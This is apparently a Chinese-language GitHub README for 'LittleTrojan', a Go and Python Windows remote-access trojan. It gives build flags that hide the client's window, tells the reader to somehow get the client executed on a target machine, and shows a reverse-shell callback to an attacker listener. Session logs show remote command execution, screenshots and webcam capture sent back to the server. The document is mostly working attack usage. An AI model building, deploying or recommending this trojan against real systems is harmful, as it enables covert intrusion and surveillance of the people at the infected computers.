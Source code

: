 # LittleTrojan

## LittleTrojan是什么
* 是一个利用Golang和Python实现的Windows远程控制工具。
* Client使用Golang实现，Server使用python实现，两者通过socket套接字通信。
* Client通过反向连接客户端来反弹shell。
* 最终实现的目的是替代或者等同metasploit、cobalt strike等渗透测试工具。

## LittleTrojan怎么运行
* 你可能需要使用VPS或者内网穿透等转发工具，确保客户端能够反向连接到你。
* 拉取最新的项目
```bash
git clone https://github.com/littlewith/LittleTrojan
```
* 目前仅为Demo版本，暂不支持加密通信和自定义生成木马，以后会进行功能完善。
* 在你的远程机器上运行客户端，需要安装相应的python版本。

```bash
# 不传入参数就可以查看详细的操作，当出现错误，会提示出错的原因。

python Server2.py

                    DreamShell ---> HELP DOCUMENT
                    -----------------------------
                    Launch service:   Server -a [--addr] (you ip) -p [--port] (your port)
                    when in command:   [command]
                    when in shell:  [cmd-shell]  or  [bash-shell]
                    -----------------------------
                    Some useful commands:
                    exit --> close the handler and stop the client process
                    restart --> restart the handler
                    screenshot --> take a screenshot on the screen
                    camerashot --> take a photo use the camera on the client
The addr or port seems not useful!
Please try again!

# 直接通过参数来指定监听的地址（0.0.0.0表示一切）和监听的端口（4433端口）（端口需要在Init.go中进行修改）

python Server2.py -a 0.0.0.0 -p 4433
0.0.0.0 4433
Service Launch! Listen on  0.0.0.0 : 4433
```

* 在Init.go文件中更改一下要连接的ip和端口
```go
client.connect("127.0.0.1", 4433)
```

* 在本地编译客户端或者在远程编译客户端，想办法在远程机器上面进行执行客户端。
```bash
go build GoTrojan -ldflags="-H windowsgui -w -s"
go_build_GoTrojan.exe
```

* 连接成功，服务端出现提示
```bash
0.0.0.0 4433
Service Launch! Listen on  0.0.0.0 : 4433
Starting convert with  ('127.0.0.1', 14083)
Tue May  2 09:38:13 2023
'127.0.0.1', 14083 (command)>shell
Starting shell.....
Tue May  2 09:38:22 2023
'127.0.0.1', 14083 (shell)>
```

## LittleTrojan常用的命令

1.获取客户端的命令行: shell
```bash
# 通过shell命令即可直接得到客户端的shell

Service Launch! Listen on  0.0.0.0 : 1234
Starting convert with  ('192.168.23.1', 1285)
Tue May  2 10:00:03 2023
'192.168.23.1', 1285 (command)>shell
Starting shell.....
Tue May  2 10:00:12 2023
'192.168.23.1', 1285 (shell)>whoami
legion-r7000p\andy

Tue May  2 10:00:15 2023
'192.168.23.1', 1285 (shell)>
```

2.返回或者退出: exit
```bash
# 当命令处于第一层的时候，会直接退出客户端，例如从command退出，注意会直接断线！

'192.168.23.1', 1285 (command)>exit
('192.168.23.1', 1285) Waiting handler to exit...
The handler is exited successfully: Bye!
Service Launch! Listen on  0.0.0.0 : 1234

# 当命令不处于第一层的时候，可以返回上一层，例如从shell返回到command

'192.168.23.1', 1285 (shell)>exit
Back on command...
Tue May  2 10:02:50 2023
'192.168.23.1', 1285 (command)>

```

3.捕获屏幕: screenshot
```bash
# 捕获屏幕的数据会直接存储在服务器的当前目录下

Service Launch! Listen on  0.0.0.0 : 1234
Starting convert with  ('192.168.23.1', 1436)
Tue May  2 10:05:32 2023
'192.168.23.1', 1436 (command)>screenshot
screenshot-Len: 253
screenshot saved! File name is: ./screenshot535.png
Tue May  2 10:05:56 2023
'192.168.23.1', 1436 (command)>
```

4.捕获摄像头: camerashot
```bash
# 和捕获屏幕类似，捕获摄像头的图像也会传回服务器


```
